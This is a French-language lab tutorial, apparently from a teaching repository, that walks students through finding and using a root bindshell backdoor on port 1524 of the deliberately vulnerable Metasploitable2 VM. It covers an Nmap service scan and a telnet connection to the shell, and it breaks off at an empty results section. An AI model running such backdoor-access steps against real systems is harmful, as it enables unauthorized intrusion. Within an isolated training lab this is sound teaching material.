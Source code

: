 # Vulnérabilités: Ouverture d'une "backdoor" sur la machine Metaspoitable directement avec le protocole Telnet:

Metasploit est un framework d’exploitation de vulnérabilités

🚩 Attention il est interdit d'accéder à des systèmes sans autorisation🏴‍☠️

Support : 

* VM Kalilinux avec utilisation de **metasploit**
* VM Linux vulnérable Metaspoitable

Réseau :

Le réseau doit être en **Accès par pont**
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Mise%20_en_r%C3%A9seau_.md


## Objectif :

✨ Vous devez trouver puis exploiter une vulnérabilité sur la machine vulnérable Metaspoitable avec le framework Metasploit installé sous la VM Kalilinux.

-----

## Prérequis 1 :

Nous allons utiliser la VM Linux vulnérable Metaspoitable
##### Création de la VM Metasploitable2 sous VirtualBox
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Metasploitable2/Creation_VM_Metaspoitable..md

##### Un fois active et sur le réseau déterminer son adresse IP
* Connaitre l'adrese IP de la cible ici la VM2. voir https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_IP/readme.md
-----

## Méthode

Lancer **Metasploit** sous Kalilinux

Tapez le mot de passe de kalilinux

  msf6>

On va rechercher les services et leurs versons avec Nmap.

https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_Ports_%26_applications.md

réponse attendue:
>
> Starting Nmap 7.95 (https://nmap.org) at ....
>
> ....
>Port     STATE    Service    Version
>
> 21/tcp   open  ftp   vsf......
>
> **1524/tcp    open  bindshell   Metasploitable root shell**
>  .....

* **bindshell** est unz technique pour ouvrir un port sur une machine.

On va donc essayer de se connecter directement avec le protocol Telnet sur la machine.

    telnet 192.168.56.xx 1524

* on a donc le protocole telnet
* l'adresse ip de la cible
* le port sur lequel on veut se connecter , ici celui de bindshell le 1524

Résultats:


